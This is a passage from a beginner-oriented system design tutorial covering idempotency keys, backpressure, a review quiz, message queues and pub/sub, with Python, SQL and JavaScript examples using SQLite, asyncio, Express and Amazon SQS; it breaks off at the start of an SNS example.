   - The client generates a unique ID (a UUID) **once per logical action**, meaning once per "Pay" tap and *not* once per attempt, and sends it in a header such as Stripe's `Idempotency-Key`.
   - The server atomically tries to record the key. If it's **new**, the server does the work and saves the response next to the key.
   - If the key **already exists with a saved response**, the server returns that saved response without charging again.
   - If the key exists but is **still in progress** (two retries racing each other), it returns `409 Conflict` and the client tries again later.
   - Keys expire after a while. Stripe's docs say keys can be removed after they are at least 24 hours old. Stripe also rejects a reused key sent with *different* parameters.
3. **Natural idempotency**: design the operation so repeats are harmless:
   - `SET balance = 100` is idempotent, while `balance = balance + 10` (INCREMENT) is **not**.
   - "Set status to shipped" is idempotent, while "toggle status" is not.
   - Upserts (`INSERT … ON CONFLICT DO NOTHING`) and conditional updates (`UPDATE … WHERE version = 7`) are safe to repeat.
4. **Consumer dedup for messages**: most queues (Kafka, Amazon SQS standard queues, RabbitMQ with acks) deliver **at least once**, so a message can arrive twice (for example when a consumer crashes after doing the work but before acknowledging). The consumer stores processed message IDs, **in the same database transaction** as the work, and skips IDs it has already seen.

*Without an idempotency key, a lost response causes a double charge:*

```mermaid
sequenceDiagram
    participant C as Mobile App
    participant S as Payment API
    participant B as Card Network
    C->>S: POST /charges amount=50
    S->>B: charge card 50 dollars
    B-->>S: approved
    S--xC: response lost (network timeout)
    Note over C: Did it work? No idea. Retry!
    C->>S: POST /charges amount=50
    S->>B: charge card 50 dollars
    B-->>S: approved
    S-->>C: 200 OK
    Note over C,B: Customer charged TWICE, 100 dollars total
```

*With an idempotency key, the retry gets the saved answer:*

```mermaid
sequenceDiagram
    participant C as Mobile App
    participant S as Payment API
    participant K as Key Store
    participant B as Card Network
    C->>S: POST /charges with Idempotency-Key k-7f3a
    S->>K: insert k-7f3a if absent
    K-->>S: inserted, first time
    S->>B: charge card 50 dollars
    B-->>S: approved
    S->>K: save response for k-7f3a
    S--xC: response lost (network timeout)
    C->>S: retry POST /charges with SAME key k-7f3a
    S->>K: insert k-7f3a if absent
    K-->>S: already exists, here is the saved response
    S-->>C: 200 OK (replayed, no new charge)
```

**💻 Example:** Make a local database change and record its idempotency key in **the same transaction**.
This complete SQLite example awards ten loyalty points once, even when the caller retries.
It also rejects using the same key with a different request.

```python
import json
import sqlite3

db = sqlite3.connect(":memory:")
db.executescript("""
CREATE TABLE accounts (id INTEGER PRIMARY KEY, points INTEGER NOT NULL);
CREATE TABLE operations (
    account_id INTEGER, key TEXT, amount INTEGER NOT NULL, response TEXT,
    PRIMARY KEY (account_id, key)
);
INSERT INTO accounts VALUES (7, 0);
""")

def award_points(account_id, key, amount):
    if not key or amount <= 0:
        raise ValueError("A nonempty key and positive amount are required")
    with db:
        db.execute("BEGIN IMMEDIATE")
        previous = db.execute(
            "SELECT amount, response FROM operations WHERE account_id=? AND key=?",
            (account_id, key),
        ).fetchone()
        if previous:
            if previous[0] != amount:
                raise ValueError("Key already used for a different request")
            return json.loads(previous[1])
        changed = db.execute(
            "UPDATE accounts SET points=points+? WHERE id=?", (amount, account_id)
        )
        if changed.rowcount != 1:
            raise ValueError("Account not found")
        points = db.execute("SELECT points FROM accounts WHERE id=?", (account_id,)).fetchone()[0]
        result = {"points": points}
        db.execute("INSERT INTO operations VALUES (?, ?, ?, ?)",
                   (account_id, key, amount, json.dumps(result)))
        return result

print(award_points(7, "purchase-42", 10))  # {'points': 10}
print(award_points(7, "purchase-42", 10))  # {'points': 10}, not 20
db.close()
```

This single-process example resets on exit; a real service uses durable storage, authenticated
account scope, database-specific concurrency handling, and an explicit retention policy.
The uniqueness constraint and transaction are the important parts.

**External payments are different.** A database transaction cannot atomically commit a remote card
charge. A Redis `SET NX` alone is not enough either: the charge may succeed and the process may crash
before recording the response. Persist an operation state, send the **same provider idempotency key**
on retries, and reconcile unknown outcomes through provider status or webhooks. Never delete an
in-progress key and retry a financial side effect blindly. The preceding sequence diagram shows
the happy path, not every crash-recovery step.

The database version uses a **unique constraint** (a primary key), ideally in the *same transaction* as the payment row:

```sql
CREATE TABLE idempotency_keys (
  key          TEXT PRIMARY KEY,           -- the client's Idempotency-Key
  request_hash TEXT NOT NULL,              -- catches the same key reused with a different body
  response     JSONB,                      -- NULL while still in progress
  created_at   TIMESTAMPTZ DEFAULT now()
);

INSERT INTO idempotency_keys (key, request_hash) VALUES ('k-7f3a', 'sha256-of-body')
ON CONFLICT (key) DO NOTHING;              -- 0 rows inserted means DUPLICATE: return the saved response
```

Consumer dedup for an at-least-once queue. The non-idempotent `+ 10` becomes safe because each message ID is processed once:

```python
def handle_message(msg, db):
    with db.transaction():                                   # dedup + work commit together
        inserted = db.execute(
            "INSERT INTO processed_messages (id) VALUES (%s) ON CONFLICT DO NOTHING",
            [msg.id],
        ).rowcount
        if inserted == 0:
            return                                           # seen before: skip (still ack it)
        db.execute("UPDATE accounts SET points = points + 10 WHERE id = %s", [msg.user_id])
```

**🌍 Real-world usage:**
- **Stripe API v1** accepts an `Idempotency-Key` header on POST requests and replays the first stored result
  for retries with the same key. API v2 has different behavior for failed or partially completed work;
  consult the [provider's documented contract](https://docs.stripe.com/api/idempotent_requests).
- **PayPal** uses a `PayPal-Request-Id` header, and **AWS EC2** `RunInstances` takes a `ClientToken`. Same idea, different names.
- The IETF has a draft standard for an `Idempotency-Key` HTTP header, based on this common practice.
- **Kafka** has an "idempotent producer" (`enable.idempotence`) so producer retries don't write duplicates. **SQS FIFO** queues drop duplicates that share a deduplication ID within a 5-minute window.

**⚖️ Trade-offs:**

| Approach | When to use | Downside |
|---|---|---|
| Naturally idempotent design (SET, PUT, upsert) | Whenever you can | Not every action fits (sending money is a "do," not a "set") |
| Idempotency keys | Payments, orders, any create-style POST | Extra storage, key expiry and race handling |
| Consumer dedup table | At-least-once message queues | Table grows, so you need cleanup, and it must share a transaction with the work |
| Just don't retry | Truly rare, low-value actions | Users see failures, or silent data loss |

**⚠️ Common mistakes:**
- Generating a **new key on every retry**, which defeats the whole purpose. One key per user action.
- "Check, then insert" without concurrency control: two racing retries both see "no key".
  Use a unique constraint and a transaction for local database effects; external effects additionally
  need the provider's idempotency contract and recovery logic.
- Saving the key in a different store or transaction than the side effect. A crash in between leaves them out of sync.
- Leaving an operation stuck at `IN_PROGRESS` without reconciliation, or expiring it and redoing
  a payment without first establishing whether the original payment succeeded.
- Assuming `POST`/`PATCH` are safe to retry because "it's just one request."

**🎯 Remember:** Networks force you to retry, and idempotency makes retries safe. "Exactly once" in practice means **at-least-once delivery + idempotent processing**.

**🔗 See also:** [#25 Timeouts](#25-timeouts), [#26 Retries](#26-retries), [#30 Backpressure](#30-backpressure)

---

### 30. Backpressure

> **In one line:** Backpressure is how a slow receiver tells a fast sender: "Slow down, I can't keep up!"

**🏠 Real-life analogy:** Picture a restaurant kitchen. Waiters clip order tickets onto a conveyor belt that runs to the chef. The chef can cook 10 dishes a minute, but 30 orders a minute arrive. The belt overflows, tickets pile up, and diners wait 45 minutes for cold food. A good manager has a few options. Make the belt *shorter* (a bounded buffer). Tell waiters to stop taking orders until the kitchen catches up (slow the producer). Skip the free bread for now (drop low-value work). Or tell new guests at the door "Sorry, 30-minute wait, please come back later" (load shedding).

**❓ What problem does it solve?** When a **producer** (the thing creating work) is faster than a **consumer** (the thing doing the work) for long enough, the extra work has to go *somewhere*:
- **Unbounded queues** grow until the process runs **out of memory** and crashes, losing everything in the queue.
- **Latency explodes.** By Little's Law, wait time ≈ queue length ÷ processing rate. 100,000 queued items at 1,000 per second means a **100-second** wait. By the time you process an item, the user has given up, so you're doing useless work.
- Without backpressure, the overload spreads instead of being contained.

**⚙️ How it works:** pick one (or a mix) of these strategies:
1. **Buffer, but BOUNDED**: a queue with a maximum size absorbs short bursts. Size it for bursts, not for permanent overload.
2. **Block / slow the producer**: when the buffer is full, the producer has to *wait*. The pressure flows "back" upstream, which is where the name comes from. TCP, Node streams and `asyncio.Queue` work this way.
3. **Drop or sample**: throw away new items (or the oldest ones), or keep 1 in N. This works for metrics, logs, live video frames and sensor readings. Never use it for payments.
4. **Load shedding**: reject extra requests *early and cheaply* with `503 Service Unavailable` (or `429`) plus `Retry-After`. A fast "no" is better than a slow timeout. Shed low-priority traffic first (background prefetch) to protect high-priority traffic (checkout).
5. **Scale consumers** (add workers or autoscale). This is the long-term fix, and backpressure buys you time until it kicks in.

**Built-in examples you already use:**
- **TCP flow control**: the receiver tells the sender in every ACK how much buffer space it has left (the **receive window**). If the app reads slowly, the window shrinks to 0 and the sender pauses.
- **Pull-based consumers**: Kafka consumers *pull* messages at their own pace, so a slow consumer just falls behind ("consumer lag") instead of being flooded.
- **Reactive Streams** (RxJava, Project Reactor, Akka Streams, Java's `Flow` API): the subscriber calls `request(n)`, meaning "send me n more," so it never receives more than it asked for.
- **Node.js streams**: each stream has a `highWaterMark` (buffer limit). `writable.write()` returns `false` when the buffer is above it, which means stop writing until the `'drain'` event fires. `pipe()` and `stream.pipeline()` handle this automatically.

*A bounded queue and what happens when it's full:*

```mermaid
flowchart LR
    Producer["Producer<br/>1000 msgs per sec"] --> Full{"Buffer full?"}
    Full -->|"no"| Buffer[("Bounded queue<br/>max 500 items")]
    Buffer --> Consumer["Consumer<br/>600 msgs per sec"]
    Full -->|"yes: block"| Slow["Producer waits<br/>pressure flows upstream"]
    Full -->|"yes: drop"| Drop["Drop or sample<br/>fine for metrics"]
    Full -->|"yes: shed"| Shed["Reply 503<br/>+ Retry-After"]
```

*TCP flow control, backpressure built into the internet:*

```mermaid
sequenceDiagram
    participant S as Sender
    participant R as Receiver
    S->>R: data, 48 KB
    R-->>S: ACK, window 16 KB left
    S->>R: data, 16 KB
    R-->>S: ACK, window 0 (app reading slowly)
    Note over S: pause sending
    Note over R: app drains its buffer
    R-->>S: window update, 64 KB free
    S->>R: data resumes
```

**💻 Example:** Python `asyncio` with a **bounded** queue. `await queue.put()` blocks when the queue is full, so the fast producer is automatically slowed to the consumer's pace:

```python
import asyncio

async def producer(queue):
    for i in range(20):
        await queue.put(i)               # WAITS here when the queue is full (backpressure)
        print(f"produced {i} (queue size {queue.qsize()})")

async def consumer(queue):
    while True:
        item = await queue.get()
        await asyncio.sleep(0.2)         # pretend each job is slow
        print(f"    consumed {item}")
        queue.task_done()

async def main():
    queue = asyncio.Queue(maxsize=5)     # BOUNDED: at most 5 items waiting
    worker = asyncio.create_task(consumer(queue))
    await producer(queue)
    await queue.join()                   # wait until every item is processed
    worker.cancel()

asyncio.run(main())
```

To **drop** instead of block, use `queue.put_nowait(item)` and catch `asyncio.QueueFull` (and count the drops in a metric!).

Node streams handle backpressure for you in `pipeline()`, and a tiny Express middleware can **shed load** when too many requests are in flight:

```js
import { createReadStream, createWriteStream } from "node:fs";
import { pipeline } from "node:stream/promises";
import { createGzip } from "node:zlib";

// If the disk writes slowly, pipeline() pauses reading automatically.
await pipeline(
  createReadStream("huge.log", { highWaterMark: 64 * 1024 }), // read in 64 KB chunks
  createGzip(),
  createWriteStream("huge.log.gz"),
);

// Load shedding: say "busy" cheaply instead of queueing forever.
let inFlight = 0;
const MAX_IN_FLIGHT = 100;
app.use((req, res, next) => {
  if (inFlight >= MAX_IN_FLIGHT) {
    res.set("Retry-After", "5");
    return res.status(503).send("Busy, please retry shortly");
  }
  inFlight++;
  res.on("close", () => inFlight--);   // fires when the response ends or the client leaves
  next();
});
```

**🌍 Real-world usage:**
- **TCP** and **HTTP/2** both have flow-control windows built in. **gRPC** streaming relies on HTTP/2 flow control.
- **Kafka** consumers pull at their own pace, and teams alert on *consumer lag* to spot consumers that can't keep up.
- **RxJava**, **Project Reactor** (Spring WebFlux) and **Akka Streams** implement the Reactive Streams backpressure protocol.
- Amazon's Builders' Library article *"Using load shedding to avoid overload"* and the Google SRE book's "Handling Overload" chapter describe rejecting excess work early, by priority, to keep the important traffic fast.

**⚖️ Trade-offs:**

| Strategy | When to use | Downside |
|---|---|---|
| Bounded buffer | Absorbing short bursts | Adds latency, and you still need a "full" policy |
| Block the producer | Pipelines, file/stream processing, internal workers | Upstream slows down, and the block can spread to *its* callers |
| Drop / sample | Metrics, logs, video frames, telemetry | Data loss, so it's unacceptable for orders or payments |
| Load shedding (503 + Retry-After) | Public APIs and web servers under overload | Some users get errors, and clients must retry politely (#27) |
| Unbounded queue | Never | Out-of-memory crashes, minutes of hidden latency |

**⚠️ Common mistakes:**
- Using **unbounded** queues by accident: `asyncio.Queue()` with no `maxsize`, or Java's `LinkedBlockingQueue` with no capacity (which allows `Integer.MAX_VALUE` items).
- Giant buffers "just in case." They hide the overload and turn it into huge latency.
- Ignoring `write()` returning `false` in Node, so data piles up in memory.
- Shedding load *too late*, after you've already parsed the request, hit the database and done the expensive work.
- Dropping data silently, with no metric or alert for how much was dropped.

**🎯 Remember:** When producers outrun consumers, the extra work must go somewhere: **wait** (block), **throw away** (drop), **say no** (shed), or **crash** (unbounded queue). Choose deliberately, and always bound your queues.

**🔗 See also:** [#25 Timeouts](#25-timeouts), [#26 Retries](#26-retries), [#28 Circuit Breakers](#28-circuit-breakers)

---

**🧩 Putting Part 4 together:** In a well-built service, these patterns wrap every outgoing call like layers of an onion. An overall **timeout** (deadline budget) bounds the whole thing. Inside it, a **retry** loop with **exponential backoff + jitter** handles transient errors. Each attempt passes through a **circuit breaker**, which fails fast to a fallback when the dependency is clearly sick. The request carries an **Idempotency-Key**, so the **idempotent server** can safely receive duplicates, and the server protects itself with **backpressure** and load shedding (`503` + `Retry-After`).

```mermaid
flowchart LR
    Client["Client code"] --> Deadline["Overall timeout<br/>deadline budget"]
    Deadline --> RetryLoop["Retry loop<br/>backoff + jitter"]
    RetryLoop --> Breaker{"Circuit breaker<br/>open?"}
    Breaker -->|"open"| Fallback["Fallback<br/>cache or default"]
    Breaker -->|"closed"| Server["Idempotent server<br/>dedups Idempotency-Key<br/>sheds load with 503"]
    Server -->|"success"| Client
    Server -.->|"transient error"| RetryLoop
    RetryLoop -.->|"out of attempts or time"| Fallback
```

### 🧠 Part 4 Quiz

**Q1. What is the difference between a connect timeout, a read timeout and a total timeout? Does `requests.get(url, timeout=(3.05, 10))` guarantee the call finishes within about 13 seconds?**
<details><summary>Show answer</summary>

A connect timeout limits how long you wait to open the connection. A read timeout limits the wait for the *next* bytes once connected. A total timeout (deadline) limits the whole operation. No, there's no 13-second guarantee: the read timeout is the gap *between* bytes, so a server that keeps trickling data can take much longer. You need a total deadline (for example `AbortController` in Node, or a wrapper with a budget) to cap the whole call.

</details>

**Q2. Retries vs circuit breakers: aren't they opposites (one says "try again," the other says "stop trying")? How do they work together?**
<details><summary>Show answer</summary>

They handle different situations. Retries fix *short, random* failures (one dropped packet). Circuit breakers handle *sustained* failure (the service is down) by failing fast and giving it time to recover. Together, each retry attempt goes through the breaker. A few retries smooth over blips, and once failures cross the threshold the breaker opens, so retries stop hammering the dead service and the fallback is served instead.

</details>

**Q3. Your app calls an API gateway, which calls an order service, which calls a database. Every layer retries 3 times with no delay. The database gets slow. What happens, and how do you fix it?**
<details><summary>Show answer</summary>

Retry amplification: each user request can become 3 × 3 × 3 = 27 database calls, all arriving in synchronized waves, so the slow database is pushed into a full outage. Fix it by retrying at only one layer, capping attempts and adding a retry budget, using capped exponential backoff with **jitter** (full jitter) so retries spread out, respecting `Retry-After`, and adding a circuit breaker in front of the database.

</details>

**Q4. A `POST /payments` call times out on the client. Should the client retry? What would you build so it's safe?**
<details><summary>Show answer</summary>

A timeout means "unknown outcome": the payment may already have succeeded, so a blind retry can double-charge. Have the client generate one idempotency key per payment action and send it (for example in an `Idempotency-Key` header) on every attempt. The server atomically stores key → response (Redis `SET NX` or a unique constraint) and replays the saved response for duplicates, so retrying becomes safe.

</details>

**Q5. A worker service's memory keeps growing, and items now wait minutes in its in-memory queue before being processed. What is going on, and what are your options?**
<details><summary>Show answer</summary>

The producer is faster than the consumer and the queue is unbounded, so work piles up (latency ≈ queue length ÷ processing rate) until the process runs out of memory. Bound the queue, then choose a policy for when it's full: block or slow the producer, drop or sample low-value items, or shed load with `503` + `Retry-After`. Then add consumers or speed them up for the long-term fix.

</details>


## Part 5 — Async Messaging & Event-Driven Systems

So far most of our requests have been "ask and wait": a client calls a server and stands there until the answer comes back. Real systems also need to say "please do this soon" and "hey everyone, this just happened" without making anyone wait. This part teaches you queues, pub/sub, events, scheduled jobs, and how to keep data correct when one business action touches many services. These ideas are how Amazon, Uber, Netflix and Stripe stay fast and keep working even when parts of them break.

```mermaid
flowchart LR
    MQ["Message Queues<br/>(topic 31)"] --> PS["Pub/Sub<br/>(topic 32)"]
    PS --> EDA["Event-Driven Architecture<br/>(topic 33)"]
    MQ --> DLQ["Dead Letter Queues<br/>(topic 34)"]
    MQ --> Cron["Cron Jobs<br/>(topic 35)"]
    EDA --> DT["Distributed Transactions<br/>(topic 36)"]
    DT --> Saga["Saga Pattern<br/>(topic 37)"]
```

---

### 31. Message Queues

> **In one line:** A message queue is a waiting line for work: one program drops a note in, and another program picks it up later and does the job.

**🏠 Real-life analogy:** In a busy restaurant, the waiter does not stand in the kitchen waiting for your burger to cook. They write your order on a ticket, clip it to the ticket rail, and go back to take more orders. Cooks grab tickets from the rail one by one, at their own speed. During the dinner rush the tickets pile up, but no order is lost and the waiter keeps working. The ticket rail is the message queue.

**❓ What problem does it solve?**
Imagine a user signs up. Your app must save the account, send a welcome email, resize the profile photo, and update analytics. If you do all of that **synchronously** (the caller waits until every step finishes):
- The user stares at a spinner for several seconds because the email provider is slow.
- If the email provider is down, the whole signup fails, even though the account itself was fine.
- On a big sale day, 50x more requests hit the email and image services at once and they fall over.
- The two services are **tightly coupled** (both must be up at the same moment, and each must know exactly how to reach the other).

With a queue, the app saves the account, drops "send welcome email" and "resize photo" messages into a queue, and answers "Welcome!" right away. Workers do the slow jobs in the background.

| | Synchronous (sync) | Asynchronous (async, via a queue) |
|---|---|---|
| The caller... | waits for the full answer | drops off the work and moves on |
| User experience | slow if the work is slow | fast "Got it!" response |
| If the worker is down | the request fails | the work waits safely in the queue |
| Traffic spikes | overload the worker | the queue absorbs them |
| Good for | "What is my balance?" | "Email me my receipt" |

**⚙️ How it works:**
1. A **producer** (the program that sends) creates a **message**: a small piece of data, usually JSON, like `{"order_id": 42}`.
2. It sends the message to a **broker** (the server that stores queues, such as RabbitMQ or Amazon SQS). The broker saves it, often to disk and to several machines, so it survives a crash.
3. A **consumer** (the program that does the work, also called a **worker**) asks the broker for messages. This is usually **pull** (the worker asks). **Long polling** means the worker waits a few seconds for a message instead of asking again and again.
4. The consumer does the work, then sends an **acknowledgement** (an "ack": "I'm done, you can delete it").
5. If no ack arrives in time, the broker assumes the worker died and gives the message to someone else.

Key ideas you will hear in every design interview:
- **Decoupling:** the producer does not know who the consumers are, how many there are, or whether they are up right now.
- **Buffering spikes (load leveling):** 10,000 orders arrive in one minute, but your workers can only handle 1,000 per minute. The queue holds the extra and workers catch up over the next few minutes instead of crashing.
- **Visibility timeout:** in SQS, when a worker receives a message, the message is hidden from other workers for a set time (30 seconds by default, up to 12 hours). If the worker deletes it in time, it is gone. If not, it becomes visible again and another worker gets it. RabbitMQ does the same thing when a worker's connection drops before it acks.
- **Competing consumers:** many workers read from the same queue, and each message goes to only one of them. Need more speed? Add more workers.
- **Ordering (FIFO = First In, First Out):** simple queues may deliver messages slightly out of order. FIFO queues keep order, but usually only within a group (SQS FIFO keeps order per `MessageGroupId`, Kafka keeps order per partition). Strict order and lots of parallel workers pull against each other.

**Delivery guarantees** (how many times can a message be delivered?):

| Guarantee | What it means | How it happens | Risk | Good for |
|---|---|---|---|---|
| At-most-once | 0 or 1 times | Ack *before* processing, or fire-and-forget | Messages can be lost | Metrics, live location pings |
| At-least-once | 1 or more times | Ack *after* processing; redeliver on timeout | Duplicates | Most business work (with idempotent consumers) |
| Exactly-once ("effectively once") | The *effect* happens once | At-least-once delivery + deduplication IDs or transactions (SQS FIFO dedup, Kafka transactions) | More complex, works only inside one system's limits | Payments, counters, billing |

True exactly-once *delivery* over an unreliable network is not possible in general: an ack can always get lost on the way back. Real systems give you **effectively once**: the message may arrive twice, but the consumer makes sure the second copy changes nothing (see #29 Idempotency).

```mermaid
flowchart LR
    Web["Web App<br/>(producer)"] -->|"order msg"| Queue["Orders Queue<br/>(broker)"]
    Mobile["Mobile API<br/>(producer)"] -->|"order msg"| Queue
    Queue -->|"msg 1"| W1["Worker 1<br/>(consumer)"]
    Queue -->|"msg 2"| W2["Worker 2<br/>(consumer)"]
    Queue -->|"msg 3"| W3["Worker 3<br/>(consumer)"]
    W1 --> DB[("Orders DB")]
    W2 --> DB
    W3 --> DB
```

What happens when a worker crashes halfway (this is why at-least-once means "possible duplicates"):

```mermaid
sequenceDiagram
    participant P as Producer
    participant Q as Queue
    participant W1 as Worker1
    participant W2 as Worker2
    P->>Q: send order 42
    Q-->>P: stored
    W1->>Q: receive
    Q-->>W1: order 42 (hidden for 30s)
    W1-xW1: crashes before finishing
    Note over Q: 30s pass with no delete
    W2->>Q: receive
    Q-->>W2: order 42 again
    W2->>W2: process order
    W2->>Q: delete (ack)
    Note over Q: Message is gone for good
```

**💻 Example:** A producer and a worker using Amazon SQS with Python's `boto3` library.

```python
import json
import boto3

sqs = boto3.client("sqs", region_name="us-east-1")
QUEUE_URL = "https://sqs.us-east-1.amazonaws.com/123456789012/orders"

# Producer: the web app clips an "order ticket" to the rail and answers the user at once
def place_order(order_id, user_id, total):
    body = {"order_id": order_id, "user_id": user_id, "total": total}
    sqs.send_message(QueueUrl=QUEUE_URL, MessageBody=json.dumps(body))
    return "Order received!"

# Consumer: a worker process that runs forever
def worker_loop():
    while True:
        resp = sqs.receive_message(
            QueueUrl=QUEUE_URL,
            MaxNumberOfMessages=10,   # take up to 10 tickets at once
            WaitTimeSeconds=20,       # long polling: wait up to 20s for work
            VisibilityTimeout=60,     # hide each message from other workers for 60s
        )
        for msg in resp.get("Messages", []):
            order = json.loads(msg["Body"])
            charge_and_ship(order)    # your business logic (must be idempotent!)
            # Ack = delete, and only AFTER the work succeeded
            sqs.delete_message(QueueUrl=QUEUE_URL, ReceiptHandle=msg["ReceiptHandle"])
```

If `charge_and_ship` crashes, the message is never deleted. After 60 seconds it reappears and another worker retries it. That is at-least-once delivery in action.

**Popular tools:**
- **RabbitMQ:** a classic "smart" broker (speaks the AMQP protocol). Producers send to *exchanges*, which route messages into queues by rules. Messages are deleted once acked.
- **Amazon SQS:** fully managed by AWS (no servers to run). *Standard* queues are nearly unlimited in throughput, deliver at-least-once, with best-effort order. *FIFO* queues keep strict order per group and deduplicate.
- **Apache Kafka:** not really a queue but a **log**: an append-only list of records kept for a retention period (for example 7 days). Reading does not delete anything. Each consumer remembers its position (its **offset**), so you can rewind and **replay** old messages.
- **ActiveMQ:** a long-standing broker from the Java world (JMS API), now in two flavors: ActiveMQ Classic and Artemis.
- **Redis Streams:** a lightweight log inside Redis (`XADD`, `XREADGROUP`, `XACK`) with consumer groups. Handy if you already run Redis.

| | Apache Kafka | RabbitMQ | Amazon SQS |
|---|---|---|---|
| Model | Partitioned, append-only log | Broker with exchanges and queues | Managed queue |
| After a message is read | Stays until retention expires | Deleted when acked | Deleted when the consumer deletes it |
| Replay old messages | Yes (reset the offset) | No (except RabbitMQ Streams) | No |
| Ordering | Per partition | Per queue (with one consumer) | FIFO queues: per message group; Standard: best effort |
| Throughput | Very high, built for streams of events | High | Scales automatically |
| Operations | You run a cluster (or use Confluent Cloud, Amazon MSK) | You run it (or use CloudAMQP, Amazon MQ) | Zero servers, pay per request |
| Best for | Event streaming, analytics pipelines, many readers of the same data | Task queues, flexible routing, request/reply | Simple background jobs on AWS |

**🌍 Real-world usage:** Amazon SQS was one of AWS's very first public services (beta in 2004) and is still the default "do this later" tool on AWS. Kafka was created at LinkedIn and open-sourced in 2011; LinkedIn, Netflix and Uber run very large Kafka deployments. Background-job frameworks are queues under the hood: Celery (Python, usually on RabbitMQ or Redis), Sidekiq (Ruby, Redis), and BullMQ (Node, Redis). GitHub created Resque, a Redis-backed job queue, in 2009. Typical jobs: sending emails and push notifications, video and image processing, generating PDFs and invoices, and syncing data to search indexes.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Fast responses: slow work happens in the background | Results are not immediate (eventual, not instant) |
| Services are decoupled and fail independently | One more system to run, monitor and secure |
| Absorbs traffic spikes and smooths load | Duplicates and reordering must be handled in code |
| Easy horizontal scaling (add workers) | Harder to debug: the work happens "somewhere, later" |

**⚠️ Common mistakes:**
- Acking (deleting) the message *before* doing the work. If the worker then crashes, the message is lost forever.
- A visibility timeout shorter than the real processing time, so a second worker grabs the same message while the first is still busy.
- Consumers that are not idempotent: a redelivered "charge card" message charges the customer twice.
- Putting huge payloads (videos, big files) in messages. Store the file in S3 and send only a pointer to it (the "claim check" pattern).
- Not watching queue depth and "age of oldest message". A growing queue is often the first sign that workers are broken.

**🎯 Remember:** A queue turns "do it now" into "do it soon, reliably." Assume at-least-once delivery and make every consumer idempotent.

**🔗 See also:** [#32 Pub/Sub](#32-pubsub), [#34 Dead Letter Queues](#34-dead-letter-queues), [#33 Event-Driven Architecture](#33-event-driven-architecture), [#26 Retries](#26-retries), [#29 Idempotency](#29-idempotency)

---

### 32. Pub/Sub

> **In one line:** Pub/Sub (publish/subscribe) lets one sender shout a message once, and every interested listener gets their own copy.

**🏠 Real-life analogy:** A YouTube creator uploads one video. They do not email each fan. Everyone who subscribed to the channel gets notified automatically, and the creator does not even know who they are. A newspaper works the same way: it prints the news once and every subscriber gets a copy at their door. New subscribers can sign up any time without the newspaper changing how it writes.

**❓ What problem does it solve?**
A plain queue gives each message to **only one** consumer. That is perfect for sharing work, but bad for sharing news. Suppose an order is placed and four teams care: payments, email, analytics, and search. Without pub/sub:
- The order service must send four separate messages to four queues, and know about all four teams.
- Every time a new team wants order data, someone must change and redeploy the order service.
- If one send fails halfway, some teams hear about the order and others do not.

With pub/sub the order service publishes `OrderPlaced` **once** to a topic. Each team subscribes. Adding a fifth team means adding one subscription, with zero changes to the order service.

**⚙️ How it works:**
1. A **publisher** sends a message to a **topic** (a named channel, like `order-events`).
2. Each interested service creates a **subscription** to that topic. A subscription is like a personal mailbox that receives a copy of every message.
3. The broker copies each message into every subscription. This copying is called **fan-out**.
4. Inside one subscription, several workers can still share the load (competing consumers). So pub/sub and queues combine: *every subscription gets every message, and within a subscription each message is processed once*.
5. Many systems let a subscription use a **filter** so it only receives the messages it cares about (for example, only `country = "IN"`).

| | Queue (point-to-point) | Pub/Sub (topic) |
|---|---|---|
| Who gets a message | Exactly one consumer | Every subscription gets a copy |
| Main purpose | Share out work | Broadcast facts and news |
| Adding a new reader | It competes for the same work | It gets its own full copy; the publisher is unchanged |
| Analogy | Restaurant ticket rail | Newspaper or YouTube subscription |
| Examples | SQS queue, RabbitMQ queue | Amazon SNS, Google Cloud Pub/Sub, Kafka topic, RabbitMQ fanout exchange, Redis Pub/Sub |

```mermaid
flowchart LR
    subgraph QueueModel["Queue: each message goes to ONE consumer"]
        P1["Producer"] --> Q1["Queue"]
        Q1 -->|"msg A"| C1["Worker 1"]
        Q1 -->|"msg B"| C2["Worker 2"]
    end
    subgraph PubSubModel["Pub/Sub: each message goes to EVERY subscriber"]
        P2["Publisher"] --> T1["Topic"]
        T1 -->|"msg A"| S1["Email Service"]
        T1 -->|"msg A"| S2["Analytics"]
        T1 -->|"msg A"| S3["Search Indexer"]
    end
```

**Fan-out pattern on AWS (SNS to SQS):** Amazon SNS (Simple Notification Service) is the topic; each team owns an SQS queue subscribed to it. SNS copies every message into every queue, and each queue buffers the work for its own team. If the email team's workers are down for an hour, their queue simply grows; payments are not affected.

```mermaid
flowchart LR
    OrderSvc["Order Service"] -->|"publish OrderPlaced"| SNS["SNS Topic<br/>order-events"]
    SNS --> SQ1["SQS: payment-queue"]
    SNS --> SQ2["SQS: email-queue"]
    SNS --> SQ3["SQS: analytics-queue"]
    SQ1 --> Pay["Payment Workers"]
    SQ2 --> Mail["Email Workers"]
    SQ3 --> Ana["Analytics Workers"]
```

**Kafka topics, partitions and consumer groups:** A Kafka **topic** is split into **partitions** (separate logs that live on different servers, so the topic can grow beyond one machine). The producer picks a partition using the message **key**, for example `order_id`, so all messages for one order land in the same partition and stay in order. A **consumer group** is one "team" of readers. Every group receives every message (pub/sub between groups), and inside a group each partition is read by exactly one consumer (queue-style sharing). If a group has more consumers than partitions, the extra consumers sit idle.

```mermaid
flowchart LR
    Prod["Producer<br/>key = order_id"]
    subgraph TopicOrders["Topic: orders"]
        Part0["Partition 0"]
        Part1["Partition 1"]
        Part2["Partition 2"]
    end
    subgraph GroupBilling["Consumer group: billing"]
        Bill1["Billing 1"]
        Bill2["Billing 2"]
    end
    subgraph GroupAnalytics["Consumer group: analytics"]
        Ana1["Analytics 1"]
    end
    Prod --> Part0
    Prod --> Part1
    Prod --> Part2
    Part0 --> Bill1
    Part1 --> Bill1
    Part2 --> Bill2
    Part0 --> Ana1
    Part1 --> Ana1
    Part2 --> Ana1
```

**Other popular pub/sub systems:**
- **Google Cloud Pub/Sub:** fully managed topics and subscriptions. Subscribers can *pull* messages or have them *pushed* to an HTTPS endpoint. Delivery is at-least-once by default; it also offers ordering keys and an exactly-once delivery option for pull subscriptions.
- **RabbitMQ fanout/topic exchanges:** an exchange copies each message into every bound queue (fanout) or into queues whose pattern matches (topic, for example `order.*`).
- **Redis Pub/Sub:** `PUBLISH` and `SUBSCRIBE` commands. It is **fire-and-forget**: Redis does not store the message. If a subscriber is offline or reconnecting at that moment, the message is simply gone. Great for live, throwaway signals ("Alice is typing...", "refresh your local cache"), bad for anything that must not be lost. Use Redis Streams or a real broker for durable messages.

**💻 Example:** Publish once to SNS, and let a subscription filter what it receives.

```python
import json
import boto3

sns = boto3.client("sns")
